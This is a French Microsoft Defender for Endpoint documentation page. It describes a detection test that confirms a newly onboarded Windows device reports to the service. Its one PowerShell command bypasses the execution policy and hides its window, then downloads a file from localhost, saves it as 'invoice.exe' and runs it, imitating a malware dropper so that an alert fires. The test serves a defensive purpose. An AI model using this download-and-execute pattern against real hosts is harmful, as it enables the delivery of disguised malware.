

# <a name="run-a-detection-test-on-a-newly-onboarded-microsoft-defender-for-endpoint-device"></a>Exécuter un test de détection sur un appareil Microsoft Defender pour point de terminaison nouvellement intégré 

[!INCLUDE [Microsoft 365 Defender rebranding](../../includes/microsoft-defender.md)]


**S’applique à :**
- Versions Windows 10 pris en charge
- Windows Server 2012 R2
- Windows Server 2016
- Windows Serveur, version 1803
- Windows Server, 2019
- [Microsoft Defender pour point de terminaison](https://go.microsoft.com/fwlink/?linkid=2154037)
- [Microsoft 365 Defender](https://go.microsoft.com/fwlink/?linkid=2118804)

> Vous voulez découvrir Microsoft Defender pour point de terminaison ? [Inscrivez-vous pour bénéficier d’un essai gratuit.](https://signup.microsoft.com/create-account/signup?products=7f379fee-c4f9-4278-b0a1-e4c8c2fcdf7e&ru=https://aka.ms/MDEp2OpenTrial?ocid=docs-wdatp-exposedapis-abovefoldlink)

L’intégration d’appareils est la méthode d’ajout d’appareils au service Microsoft Defender for Endpoint. Il permet aux appareils de signaler des signaux au service.  

Vérifier qu’un appareil a été correctement ajouté au service est une étape importante dans l’ensemble du processus de déploiement. 

## <a name="verify-onboarding-using-a-detection-test"></a>Vérifier l’intégration à l’aide d’un test de détection
Exécutez le script PowerShell suivant sur un appareil nouvellement intégré pour vérifier qu’il est correctement signalé au service Defender for Endpoint.

1. Créez un dossier : « C:\test-MDATP-test ».
2. Ouvrez une invite de ligne de commande avec élévation de niveaux sur l’appareil et exécutez le script :

   1. Accéder à **Démarrer** et taper **cmd**.

   1. Cliquez avec le bouton droit **sur Invite de** commandes et **sélectionnez Exécuter en tant qu’administrateur.**

      

3. À l’invite, copiez et exécutez la commande suivante :

   ```powershell
   powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference = 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe');Start-Process 'C:\\test-MDATP-test\\invoice.exe'
   ```

La fenêtre d’invite de commandes se ferme automatiquement. Si elle réussit, le test de détection est marqué comme terminé et une nouvelle alerte s’affiche dans le portail pour l’appareil intégré dans environ 10 minutes.

## <a name="related-topics"></a>Rubriques connexes
- [Intégrer des appareils Windows 10](configure-endpoints.md)
- [Serveurs intégrés](configure-server-endpoints.md)
- [Résoudre les problèmes d’intégration de Microsoft Defender pour les points de terminaison](/microsoft-365/security/defender-endpoint/troubleshoot-onboarding)
